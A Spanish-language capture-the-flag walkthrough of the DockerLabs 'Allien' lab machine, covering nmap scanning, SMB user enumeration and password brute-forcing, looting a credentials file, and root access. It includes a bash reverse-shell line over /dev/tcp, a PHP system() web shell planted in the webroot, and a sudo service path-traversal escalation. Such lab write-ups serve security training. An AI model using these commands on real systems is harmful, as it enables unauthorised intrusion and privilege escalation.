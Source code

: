 # allien

Máquina "Allien" de [DockerLabs](./images/allien/https;/dockerlabs.es)

Autor: [Luisillo\_o](https://www.youtube.com/@Luisillo_o)

Dificultad: Fácil

![allien](./images/allien/img/allien.png)

## Reconocimiento

Comenzamos con un escaneo de nmap:

```css
nmap -sSVC -p- -Pn --open --min-rate 5000 -n -vvv 172.17.0.2 -oN escaneo.txt 
```

```ruby
# Nmap 7.95 scan initiated Sat Oct 12 22:41:23 2024 as: nmap -sSVC -p- -Pn --open --min-rate 5000 -n -vvv -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000013s latency).
Scanned at 2024-10-12 22:41:23 -03 for 13s
Not shown: 65531 closed tcp ports (reset)
PORT    STATE SERVICE     REASON         VERSION
22/tcp  open  ssh         syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 43:a1:09:2d:be:05:58:1b:01:20:d7:d0:d8:0d:7b:a6 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBGrGDto+yIluWWc28CO9WLop39MgTQepDrYpDWvwqPgqpC2Ea8ZtGQCObWL21GlJITWAdFSZS0HaWuo1Wl9nZ84=
|   256 cd:98:0b:8a:0b:f9:f5:43:e4:44:5d:33:2f:08:2e:ce (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICk8CRYpvJnqRBsGb/f/ZxXJoTikc4EQdeCBsvENuMwD
80/tcp  open  http        syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Login
|_http-server-header: Apache/2.4.58 (Ubuntu)
139/tcp open  netbios-ssn syn-ack ttl 64 Samba smbd 4
445/tcp open  netbios-ssn syn-ack ttl 64 Samba smbd 4
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: 0s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 21783/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 41501/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 58197/udp): CLEAN (Failed to receive data)
|   Check 4 (port 51735/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| nbstat: NetBIOS name: SAMBASERVER, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   SAMBASERVER<00>      Flags: <unique><active>
|   SAMBASERVER<03>      Flags: <unique><active>
|   SAMBASERVER<20>      Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   ESEEMEB.DL<00>       Flags: <group><active>
|   ESEEMEB.DL<1d>       Flags: <unique><active>
|   ESEEMEB.DL<1e>       Flags: <group><active>
| Statistics:
|   00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00
|   00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00
|_  00:00:00:00:00:00:00:00:00:00:00:00:00:00
| smb2-time: 
|   date: 2024-10-13T01:41:36
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Oct 12 22:41:36 2024 -- 1 IP address (1 host up) scanned in 13.74 seconds
```

Al parecer tenemos lo siguiente:

`Una web(puerto 80)`

`OpenSSH(puerto 22)`

`SMB/samba(puerto 139 y 445)`

Si vamos a la web no se ve nada interesante, por lo que no la voy a mostrar xD.

Ahora podemos hacer lo siguiente para intentar enumerar usuarios de la máquina victima usando `rpcclient`:

![rpcclient](./images/allien/img/rpcclient.png)

Como vemos tenemos varios usuarios:

usuario1

usuario3

administrador

usuario2

satriani7

Ahora que tenemos usuarios, vamos a intentar hacer fuerza bruta con `netexec`:

```css
sudo netexec smb 172.17.0.2 -u 'satriani7' -p /opt/rockyou.txt --ignore-pw-decoding
```

![smb](./images/allien/img/smb.png)

Como vemos, podemos acceder al smb con la contraseña "50cent" y el usuario "satriani7".

Ahora usaremos `smbmap` para saber que ficheros tiene el smb y ver que podemos hacer:

```css
smbmap -u 'satriani7' -p '50cent' -H 172.17.0.2
```

```css
    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.5 | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 1 authenticated session(s)                                                          
                                                                                                                             
[+] IP: 172.17.0.2:445	Name: 172.17.0.2          	Status: Authenticated
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	myshare                                           	READ ONLY	Carpeta compartida sin restricciones
	backup24                                          	READ ONLY	Privado
	home                                              	NO ACCESS	Produccion
	IPC$                                              	NO ACCESS	IPC Service (EseEmeB Samba Server)
[*] Closed 1 connections
```

Tenemos dos carpetas útiles:

myshare

backup24

Sabiendo esto, nos conectaremos con `smbclient` de la siguiente manera:

```css
smbclient //172.17.0.2/backup24 -U 'satriani7%50cent'
```

Ahora que estamos dentro, si vamos a "\Documents\Personal" veremos un archivo llamado "credentials.txt", este nos lo guardaremos con el comando `get credentials.txt`. Una vez hecho esto, veremos que dentro de ese archivo se encuentra la contraseña del usuario "administrador".

## INTRUSION

Simplemente nos conectaremos con `ssh` utilizando las credenciales que encontramos.

## ESCALADA DE PRIVILEGIOS

#### Administrador

Luego de buscar un rato, no se encuentra nada interesante, pero si pruebo en buscar los directorios o archivos que me pertenezcan con `find`, encuentro lo siguiente:

```css
find / -user administrador 2>/dev/null
```

```
/var/www/html
/var/www/html/info.php
```

Sabiendo esto, podemos intentar crear un archivo que nos permita pasar al usuario "www-data", para hacerlo solo haremos lo siguiente:

Primero crearemos un archivo con lo siguiente dentro de "/var/www/html":

```css
#!/bin/bash
bash -i >& /dev/tcp/127.0.0.1/443 0>&1
```

A este lo guardamos como "shell.sh" y le damos permisos con `chmod +x shell.sh`, luego creamos un archivo ".php" con lo siguiente:

```css
<?php
system('./shell.sh')
?>
```

Ahora solo nos queda escuchar con netcat en el puerto 443 en la máquina victima y entrar desde el navegador al archivo php:

```css
nc -nlvp 443
```

#### www-data

Ahora haremos un tratamiento de la tty: [Como hacerlo?](broken-reference)

Luego, si ejecutamos `sudo -l` vermos lo siguiente:

```css
www-data@e03c24d1c06b:/var/www/html$ sudo -l
Matching Defaults entries for www-data on e03c24d1c06b:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User www-data may run the following commands on e03c24d1c06b:
    (ALL) NOPASSWD: /usr/sbin/service
www-data@e03c24d1c06b:/var/www/html$   
```

Si nos fijamos en GTFOBins veremos que podemos escalar ejecutando lo siguiente:

```css
sudo service ../../../../bin/bash
```

(Agrega "../" dependiendo de en que directorio te encuentres, pero normalmente con eso basta)

#### Root

![root](./images/allien/img/root.png)

Gracias por leer....
